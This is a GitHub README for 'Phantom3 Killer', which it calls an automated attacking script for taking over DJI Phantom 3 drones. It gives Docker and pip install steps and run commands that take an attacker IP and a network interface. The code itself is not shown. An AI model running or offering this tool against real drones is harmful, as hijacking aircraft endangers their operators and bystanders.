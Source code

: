 <h1 align="center">Welcome to Phantom3 Killer 👋</h1>
<p>
  <img alt="Version" src="https://img.shields.io/badge/version-1.0.0-blue.svg?cacheSeconds=2592000" />
</p>

> An automated attacking script for taking over Dji Phantom3 drone with seemless experience.

## Install

**Docker (Only appliable for Linux OS):**

```
docker pull zhong8/phantom3-killer:1.0
```

**Terminal:**

```sh
# MAC OS
brew install nmap
pip install -r requirements.txt

# Linux OS
apt-get install nmap
pip install -r requirements.txt
```

## Usage

1️⃣  Login into the DJI Phantom3's wifi network with your phone, and open up the DJI GO App waiting for taking over control of the drone.

2️⃣  Disable the packet forwarding configuration by `sudo sysctl net.ipv4.ip_forward=0`

3️⃣  Execute the phantom3-killer:

**Docker (Only appliable for Linux OS):**

```bash
# Make ture enable host network mode sharing the interfaces with docker container
sudo docker run --network="host" phantom3-killer -a [ATTACKER_IP] -i [YOUR_INTERFACE_NAME]
```

**Terminal:**

```sh
python3 main.py -a [ATTACKER_IP] -i [YOUR_INTERFACE_NAME]
```

![render1709853175528](./image/usage.gif)

## Author

👤 **zhong**

* Website: https://blog.2h0ng.wiki/
* Github: [@superboy-zjc](https://github.com/superboy-zjc)

## Show your support

Give a ⭐️ if this project helped you!
